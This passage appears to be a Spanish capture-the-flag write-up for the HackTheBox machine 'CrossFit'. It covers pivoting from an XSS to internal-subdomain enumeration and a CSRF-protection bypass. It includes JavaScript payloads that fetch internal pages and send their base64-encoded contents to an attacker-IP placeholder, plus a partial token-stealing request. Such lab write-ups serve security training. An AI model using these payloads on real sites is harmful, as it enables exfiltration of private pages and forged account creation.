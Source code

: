 Y encontramos un subdominio nuevo el cual podemos contempltar en el */etc/hosts* pera enumerarlo también:
![[Pasted image 20230701092049.png]]

-----------
#### Accessing internal websites through XSS - Creating a javascript file  
Si intentamos acceder al subdomino realmente no logramos a preciar nada, pero puede ser porque para visitar esta pagina web se tenga que hacer desde el mismo segmento de red, asi que podemos proceder a enumerar la pagina y algunas cosas más a través del XSS.

**Enumerar nombre de subdominio de la victima:**
```javascript
var req1 = new XMLHttpRequest();
										// Representa la data en base64
req1.open("GET", 'http://<NuEsTrA-iP>/' + btoa(document.domain), false);
req1.send(null);
```

**Enumerar el subdominio descubierto:**
```javascript
var req1 = new XMLHttpRequest();
req1.open("GET", 'http://ftp.crossfit.htb/', false);
req1.send(null);

var response = req1.responseText;

var req2 = new XMLHttpRequest();
req2.open('GET', 'http://<nUeStRa-Ip>/?page=' + btoa(response), false);
req2.send(null);
```

--------
#### Registering a new user through XSS - CSRF Protection Bypass
Vemos que en el subdominio, hay un dashboard y en este hay una sección para registrar un **nuevo usuario**:
![[Pasted image 20230701092109.png]]

Si hacemos hovering en el boton, vemos la ruta a la cual nos lleva si le damos click, podemos intentar también enumerar esa pagina como lo habiamos hecho anteriormente:
```javascript
var req1 = XMLHttpRequest();
req1.open("GET", "http://ftp.crossfit.htb/accounts/create");
req1.send(null);

var response = req1.responseText;
var req2 = new XMLHttpRequest();
req2.open("GET", "http://<nUeStrA<iP>/?page=" + btoa(response), false);
req2.send(null);
```

Ahora vemos la pagina de registro de usuario, podemos ver los valores que se tramitan por **POST** a la hora de registrar un usuario, asi que podemos aprovechar el **XSS** para tornarlo a un **CSRF** y registrar un usuario nuevo. Tenemos que tener en cuenta que hay un **__token** oculto en la petición que vamos a tener que tramitar tambien para poder registrar un nuevo usuario:
```javascript
var req1 = XMLHttpRequest();
req1.open("GET", "http://ftp.crossfit.htb/accounts/create");
// Indicamos que haremos uso de credenciales
req1.withCredentials = true;
req1.send(null);

// Almacenamos la respuesta en una variable en formato de texto
var response = req1.responseText;
```